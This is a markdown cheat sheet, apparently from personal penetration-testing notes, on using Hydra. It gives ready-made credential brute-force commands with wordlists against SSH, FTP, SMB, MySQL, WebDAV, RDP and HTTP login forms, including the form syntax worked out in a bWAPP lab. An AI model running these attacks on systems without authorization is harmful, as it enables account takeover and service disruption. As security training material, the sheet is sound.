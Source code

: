 # [Hydra](https://rodtrent.substack.com/p/using-kali-linux-and-hydra-for-attack)
> Hydra is extremely functional for brute-forcing MULTIPLE different protocols.

You may need to unzip the RockYou wordlist:
```
gzip -d /usr/share/wordlists/rockyou.txt.gz .
```

If Hydra throws an error or for some reason does not work, try [CrackMapExec](cme.md).

## Contents
- [Syntax](#general-syntax-by-usage-example)
- [Configuration](#configuration)
  - [Speed Kills, Del](#speed-kills-del)
  - [Common Options](#common-options)
- [Protocol Examples](#specific-protocol-examples): [`FTP`](#ftp), [`SMB`](#smb), [`SSH`](#ssh), [`MySQL`](#mysql), [`WebDAV`](#webdav), [`RDP`](#rdp)
- [HTTP Login Form: http-post-form](#http-login-form-http-post-form)
  - [General Syntax](#general-syntax)
  - [Intercept a Random, Invalid Login](#intercept-a-random-invalid-login)
  - [Capture a Failed Login String](#capture-a-failed-login-string)
  - [Final Syntax](#final-syntax)
  - [Additional Help](#additional-help)

## General Syntax (by usage example):

```
hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt ssh://192.168.1.123:22 -t 6 -V
```

- `-l root` : attempt to login as the root user
- `-P /usr/.../unix_passwords.txt` : using a password list
- `ssh://192.168.1.123` : attacking SSH at the target IP
- `:22` : via port 22 on the target
- `-t 6` : with 6 threads
- `V` : with verbosity to see the attempts 

## Configuration

### Common Options
- `-L` or `-l` : Indicates the "Login" (capital: file of multiple; lower case for single)
- `-P` or `-p`: Indicates the "Passwords" (capital: file of multiple; lower case for single)

### Speed Kills, Del
- Be very careful with your brute-force speed. You could crash the system or DoS it. 
- The `-t` (tasks) option sets the number of connects in parallel (default is 16)
- You could set `-t 2` or `-t 3` and see if that plays nicer. Hydra actually recommends `-t 1` through `-t 4`.

## Specific Protocol Examples

### FTP
```
hydra -L [path/to/username_file.txt] -P [path/to/password_file.txt] [target ip] ftp
```

### SMB
```
hydra -l admin -P /usr/share/wordlists/rockyou.txt [target IP] smb
```

### SSH
```
hydra -l student -P rockyou.txt [ip] ssh
```

### MySQL
```
hydra -l root -P /usr/share/metasploit_framework/data/wordlists/unix_passwords.txt [target ip] mysql
```

### WebDAV
```
hydra -L /.../common-users.txt -P  /.../common-passwords.txt [target ip] http-get /webdav/
```
- `http-get` : Indicates the protocol to be used
- `/webdav/` : Indicates the directory where hydra can find the authentication mechanism

### RDP
```
hydra -L users.txt -P passwords.txt [target ip] rdp -s 3333
```
- `-s` : service port (if different than the default)

## HTTP Login Form: http-post-form
> This was taken from a lab (and the syntax is complicated). The lab used bWAPP as the vulnerable target website and Burp Suite as the proxy.

### General Syntax
```
<url>:<form parameters>:<condition string>[:<optional>[:<optional>]
#[1]    [2]             [3]  
```
1. First is the page on the server to GET from or POST to (URL of the login page)
2. Second is the POST/GET variables (taken from either the browser, proxy, etc. with url-encoded (resp. base64-encoded) usernames and passwords being replaced in the "^USER^" (resp. "^USER64^") and "^PASS^" (resp. "^PASS64^") placeholders (FORM PARAMETERS).
3. Third is the string that it checks for an *invalid* login (by default)
    - This is where most people get it wrong. You have to check the webapp what a failed string looks like and put it in this parameter!

### Intercept a Random, Invalid Login
- Copy and paste the login syntax being POSTed to the server.
- Change the login variables (the random username and password you plugged in) to the **_placeholders_** required by Hydra. These placeholders function as variables and Hydra will plug in its attempts into these placeholders/variables.

![image](https://github.com/GregKedrovsky/Hacking/assets/26492233/3a32dae8-e9b6-48d6-b73e-e002cca6b7f2)

### Capture a Failed Login String
- This is where most people get it wrong. You have to check in the webapp what a failed string looks like and put it in this parameter!

![image](https://github.com/GregKedrovsky/Hacking/assets/26492233/a9bc4a0d-338c-4f16-8820-bb324eb027f8)

### Final Syntax
```
hydra -L user_list.txt -P password_list.txt http://192.103.189.3 http-post-form "/login.php:login=^USER^&password=^PASS^&security_level=0&form=submit:Invalid credentials or user not activated!"
# the 3 required arguments in the http-post-form are colon-separated:             [1] <url>    [2] <form parameters>                                   [3]  <condition string>
```

### Additional Help
```
hydra -U http-post-form
# -U : service module usage details
```



